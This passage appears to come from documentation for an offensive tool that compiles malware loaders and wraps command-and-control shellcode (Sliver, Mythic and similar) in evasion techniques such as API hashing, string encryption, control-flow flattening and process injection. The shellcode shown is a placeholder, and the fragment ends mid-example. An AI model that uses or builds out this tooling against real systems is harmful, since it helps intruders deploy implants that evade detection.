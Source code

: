 ```python
    asm_files=[
        'Examples/MaldevAcademy/Loader1/.../HellsAsm.asm'
    ],
    rc_files=[
        'Examples/MaldevAcademy/Loader1/.../Resource.rc'
    ],
    architecture='x64',
    optimization='O2',
    output_name='advanced_loader'
)

if result.success:
    print(f"Binary: {result.binary_path}")
    print(f"Size: {result.metadata['binary_size']:,} bytes")
    print(f"Compilation time: {result.compilation_time:.2f}s")
```

### File Type Support

**C/C++ Files:**
- Compiled with MinGW (`x86_64-w64-mingw32-gcc`)
- Flags: `-O2`, `-static`, `-s`, `-ffunction-sections`

**Assembly Files:**
- Compiled with NASM (`nasm -f win64`)
- Generates COFF object files

**Resource Files:**
- Compiled with windres (`x86_64-w64-mingw32-windres`)
- Embeds resources into PE

---

## Technique Integration

### Load Techniques into C2 Payloads

**How It Works:**
1. TechniqueManager loads metadata from `techniques/metadata/*.json`
2. Source files extracted from `Examples/` directory
3. Code injected into C2 loader template
4. Obfuscation applied (strings, APIs, CFG)
5. Compilation with MinGW + NASM + windres

**Example:**
```python
from c2_adapters import ShellcodeWrapper, WrapperConfig

# C2 shellcode from Sliver/Adaptix/Mythic
shellcode = b'\x90' * 1024

# Configure wrapper with techniques
wrapper_config = WrapperConfig(
    encrypt_strings=True,
    hash_apis=True,
    flatten_control_flow=True,
    techniques=['NOCTIS-T004', 'NOCTIS-T002', 'NOCTIS-T005'],
    loader_type="process_injection",
    shellcode_encryption="aes256"
)

wrapper = ShellcodeWrapper(wrapper_config, verbose=True)

# Wrap shellcode with techniques
```